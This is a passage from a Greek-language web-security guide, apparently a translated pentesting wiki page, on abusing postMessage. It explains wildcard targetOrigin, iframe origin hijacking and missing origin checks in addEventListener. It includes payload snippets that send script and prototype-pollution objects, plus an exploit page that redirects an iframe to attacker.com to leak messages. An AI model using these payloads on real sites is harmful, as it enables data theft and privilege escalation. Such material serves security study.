 ```bash
<iframe src="https://victim.com/" onload="this.contentWindow.postMessage('<script>print()</script>','*')">

# postMessage to popup
win = open('URL', 'hack', 'width=800,height=300,top=500');
win.postMessage('{"__proto__":{"isAdmin":True}}', '*')

# postMessage to an URL
window.postMessage('{"__proto__":{"isAdmin":True}}', 'https://company.com')

# postMessage to iframe inside popup
win = open('URL-with-iframe-inside', 'hack', 'width=800,height=300,top=500');
## loop until win.length == 1 (until the iframe is loaded)
win[0].postMessage('{"__proto__":{"isAdmin":True}}', '*')
```
Σημειώστε ότι το **targetOrigin** μπορεί να είναι ένα '\*' ή μια διεύθυνση URL όπως _https://company.com._\
Στο **δεύτερο σενάριο**, το **μήνυμα μπορεί να σταλεί μόνο σε αυτή τη διεύθυνση** (ακόμα κι αν η προέλευση του αντικειμένου παραθύρου είναι διαφορετική).\
Εάν χρησιμοποιηθεί το **wildcard**, **τα μηνύματα θα μπορούσαν να σταλούν σε οποιαδήποτε διεύθυνση**, και θα σταλούν στην προέλευση του αντικειμένου Window.

### Επίθεση iframe & wildcard στο **targetOrigin**

Όπως εξηγείται σε [**αυτή την αναφορά**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/), αν βρείτε μια σελίδα που μπορεί να **iframed** (χωρίς προστασία `X-Frame-Header`) και που **στέλνει ευαίσθητο** μήνυμα μέσω **postMessage** χρησιμοποιώντας ένα **wildcard** (\*), μπορείτε να **τροποποιήσετε** την **προέλευση** του **iframe** και να **leak** το **ευαίσθητο** μήνυμα σε μια διεύθυνση που ελέγχετε.\
Σημειώστε ότι αν η σελίδα μπορεί να iframed αλλά το **targetOrigin** είναι **ρυθμισμένο σε μια διεύθυνση URL και όχι σε wildcard**, αυτό το **κόλπο δεν θα λειτουργήσει**.
```markup
<html>
<iframe src="https://docs.google.com/document/ID" />
<script>
setTimeout(exp, 6000); //Wait 6s

//Try to change the origin of the iframe each 100ms
function exp(){
setInterval(function(){
window.frames[0].frame[0][2].location="https://attacker.com/exploit.html";
}, 100);
}
</script>
```
## εκμετάλλευση addEventListener

**`addEventListener`** είναι η συνάρτηση που χρησιμοποιείται από το JS για να δηλώσει τη συνάρτηση που **αναμένει `postMessages`**.\
Ένας κώδικας παρόμοιος με τον παρακάτω θα χρησιμοποιηθεί:
```javascript
window.addEventListener("message", (event) => {
if (event.origin !== "http://example.org:8080")
return;

// ...
}, false);
```
Σημειώστε σε αυτή την περίπτωση πώς το **πρώτο πράγμα** που κάνει ο κώδικας είναι **έλεγχος της προέλευσης**. Αυτό είναι τρομερά **σημαντικό** κυρίως αν η σελίδα πρόκειται να κάνει **οτιδήποτε ευαίσθητο** με τις πληροφορίες που λαμβάνει (όπως η αλλαγή ενός κωδικού πρόσβασης). **Αν δεν ελέγξει την προέλευση, οι επιτιθέμενοι μπορούν να κάνουν τα θύματα να στείλουν αυθαίρετα δεδομένα σε αυτά τα endpoints** και να αλλάξουν τους κωδικούς πρόσβασης των θυμάτων (σε αυτό το παράδειγμα).
